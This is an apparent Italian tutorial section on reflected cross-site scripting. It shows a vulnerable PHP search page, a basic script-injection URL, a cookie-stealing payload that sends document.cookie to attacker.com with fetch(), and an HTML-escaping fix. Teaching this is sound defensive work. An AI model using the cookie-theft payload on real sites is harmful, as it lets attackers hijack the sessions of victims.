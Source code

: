 # 15. Vulnerabilità HTTP Comuni

## 15.1 Cross-Site Scripting (XSS)

### 15.1.1 - Introduzione

**XSS** (Cross-Site Scripting) è una vulnerabilità che permette a un attaccante di **iniettare codice JavaScript** in pagine web visualizzate da altri utenti.

**Impatto:**
- 🔴 Furto di cookie e session token
- 🔴 Defacement del sito
- 🔴 Phishing
- 🔴 Keylogging
- 🔴 Redirect a siti malevoli

### 15.1.2 - Reflected XSS

**Scenario:** Input utente riflesso immediatamente nella risposta.

**Codice vulnerabile:**
```php
<!-- search.php -->
<h1>Risultati per: <?php echo $_GET['q']; ?></h1>
```

**Attacco:**
```
URL: http://example.com/search.php?q=<script>alert('XSS')</script>

Output HTML:
<h1>Risultati per: <script>alert('XSS')</script></h1>

→ JavaScript eseguito nel browser della vittima!
```

**Attacco avanzato (furto cookie):**
```html
<!-- URL malevolo -->
http://example.com/search.php?q=<script>
fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>

<!-- L'attaccante ottiene il cookie di sessione della vittima -->
```

**Mitigation - HTML Escaping:**
```php
<?php
function escapeHtml($str) {
    return htmlspecialchars($str, ENT_QUOTES, 'UTF-8');
}
?>

<h1>Risultati per: <?php echo escapeHtml($_GET['q']); ?></h1>

<!-- Output sicuro -->
<h1>Risultati per: &lt;script&gt;alert('XSS')&lt;/script&gt;</h1>
<!-- Script NON eseguito -->
```
